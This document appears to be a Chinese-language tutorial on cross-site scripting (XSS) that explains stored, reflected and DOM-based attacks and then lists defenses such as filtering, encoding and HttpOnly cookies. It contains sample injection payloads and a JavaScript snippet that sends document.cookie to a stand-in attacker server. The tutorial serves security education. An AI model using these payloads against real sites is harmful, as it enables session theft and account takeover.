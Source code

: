 
跨站脚本攻击(Cross Site Scripting)
XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨 大的，是web安全的头号大敌。

# 类型
从攻击代码的工作方式可以分为三个类型：
（1）持久型跨站：最直接的危害类型，跨站代码存储在服务器（数据库）。
（2）非持久型跨站：反射型跨站脚本漏洞，最普遍的类型。用户访问服务器-跨站链接-返回跨站代码。
（3）DOM跨站（DOM XSS）：DOM（document object model文档对象模型），客户端脚本处理逻辑导致的安全问题。
基于DOM的XSS漏洞是指受害者端的网页脚本在修改本地页面DOM环境时未进行合理的处置，而使得攻击脚本被执行。在整个攻击过程中，服务器响应的页面并没有发生变化，引起客户端脚本执行结果差异的原因是对本地DOM的恶意篡改利用。

# 根据XSS攻击的效果可以分为几种类型

- XSS反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。
- XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

# 攻击方式
常用的XSS攻击手段和目的有：
1、盗用cookie，获取敏感信息。
2、利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
3、利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作。
4、利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
5、在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果。


# 攻击的条件
实施XSS攻击需要具备两个条件：

- 需要向web页面注入恶意代码；
- 这些恶意代码能够被浏览器成功的执行。

看一下下面这个例子：
```
  <div id="el" style="width:100px;height:100px;background:url('javascript:eval(document.getElementById(" el ").getAttribute("code ")) ')" code="var a = document.createElement('a');
    a.innerHTML= '执行了恶意代码';document.body.appendChild(a);"></div>
```
这段代码在旧版的IE8和IE8以下的版本都是可以被执行的，火狐也能执行代码，但火狐对其禁止访问DOM对象，所以在火狐下执行将会看到控制里抛出异常：document is not defined （document是没有定义的）

反射型的XSS攻击
```
<div>
  <img src="/images/handler.ashx?id=<%= Request.QueryString["id"] %>" />
</div>
```
当输入地址为`http://www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="`时
```
<div>
  <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
</div>
```
把ValidateRequest设置为true或者保持默认值并不能解决这个问题，这种情况还可以输入下面的地址达到相同的攻击效果：
```
http://www.xxx.com/?id=xx" onerror="this.onload()" onload="alert(/xss/)" x="
```

# XSS攻击能做些什么
1.窃取cookies，读取目标网站的cookie发送到黑客的服务器上，如下面的代码：
```
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
2.读取用户未公开的资料，如果：邮件列表或者内容、系统的客户资料，联系人列表等等

# 解决方法
- 在表单提交或者url参数传递前，对需要的参数进行过滤
- 过滤用户输入的 检查用户输入的内容中是否有非法内容。如`<>`（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


# 防御方法
(1)基于特征的防御。XSS漏洞和著名的SQL注入漏洞一样，都是利用了Web页面的编写不完善，所以每一个漏洞所利用和针对的弱点都不尽相同。这就给XSS漏洞防御带来了困难，不可能以单一特征来概括所有XSS攻击。
传统的XSS防御在进行攻击鉴别时多采用特征匹配方式，主要是针对“javascript”这个关键字进行检索，但是这种鉴别不够灵活，凡是提交的信息中各有“javascript”时，就被硬性的被判定为XSS攻击。
(2)基于代码修改的防御。Web页面开发者在编写程序时往往会出现一些失误和漏洞，XSS攻击正是利用了失误和漏洞，因此一种比较理想的方法就是通过优化Web应用开发来减少漏洞，避免被攻击：
1)用户向服务器上提交的信息要对URL和附带的的HTTP头、POST数据等进行查询，对不是规定格式、长度的内容进行过滤。
2)实现Session标记（session tokens）、CAPTCHA系统或者HTTP引用头检查，以防功能被第三方网站所执行。
3)确认接收的的内容被妥善的规范化，仅包含最小的、安全的Tag（没有javascript），去掉任何对远程内容的引用（尤其是样式表和javascript），使用HTTP only的cookie。
当然，如上操作将会降低Web业务系统的可用性，用户仅能输入少量的制定字符，人与系统间的交互被降到极致，仅适用于信息发布型站点。并且考虑到很少有Web编码人员受过正规的安全培训，很难做到完全避免页面中的XSS漏洞。
(3)客户端分层防御策略。客户端跨站脚本攻击的分层防御策略是基于独立分配线程和分层防御策略的安全模型。它建立在客户端(浏览器)，这是它与其他模型最大的区别，之所以客户端安全性如此重要，客户端在接受服务器信息，选择性的执行相关内容。这样就可以使防御XSS攻击变得容易，该模型主要由三大部分组成：
1)对每一个网页分配独立线程且分析资源消耗的“网页线程分析模块”；
2)包含分层防御策略四个规则的用户输入分析模块；
3)保存互联网上有关XSS恶意网站信息的XSS信息数据库。 

XSS攻击主要是由程序漏洞造成的，要完全防止XSS安全漏洞主要依靠程序员较高的编程能力和安全意识，当然安全的软件开发流程及其他一些编程安全原则也可以大大减少XSS安全漏洞的发生。这些防范XSS漏洞原则包括：
（1）不信任用户提交的任何内容，对所有用户提交内容进行可靠的输入验证，包括对URL、查询关键字、HTTP头、REFER、POST数据等，仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交，对其他的一律过滤。尽量采用POST而非GET提交表单；对“`<`”，“`>`”，“`；`”，“`”`”等字符做过滤；任何内容输出到页面之前都必须加以en-code，避免不小心把htmltag显示出来。
（2）实现Session 标记（session tokens）、CAPTCHA（验证码）系统或者HTTP引用头检查，以防功能被第三方网站所执行，对于用户提交信息的中的img等link，检查是否有重定向回本站、不是真的图片等可疑操作。
（3）cookie 防盗。避免直接在cookie中泄露用户隐私，例如email、密码，等等；通过使cookie和系统IP绑定来降低cookie泄露后的危险。这样攻击者得到的cookie没有实际价值，很难拿来直接进行重放攻击。
（4）确认接收的内容被妥善地规范化，仅包含最小的、安全的Tag（没有JavaScript），去掉任何对远程内容的引用（尤其是样式表和JavaScript），使用HTTPonly的cookie。 

csp